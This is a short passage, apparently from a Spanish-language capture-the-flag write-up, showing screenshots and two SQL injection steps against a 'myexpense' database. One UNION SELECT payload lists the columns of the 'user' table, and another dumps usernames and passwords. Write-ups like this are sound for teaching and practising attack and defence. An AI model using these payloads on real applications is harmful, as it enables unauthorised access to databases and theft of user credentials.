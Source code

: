 ![Untitled](/assets/img/Machine/Untitled41.png)

1. Listar columnas: `union select 1,column_name from information_schema.columns where table_schema='myexpense' and table_name='user'-- -`

![Untitled](/assets/img/Machine/Untitled42.png)

1. Listando data: `union select 1,group_concat(username,0x3a,password) from user-- -`

![Untitled](/assets/img/Machine/Untitled43.png)

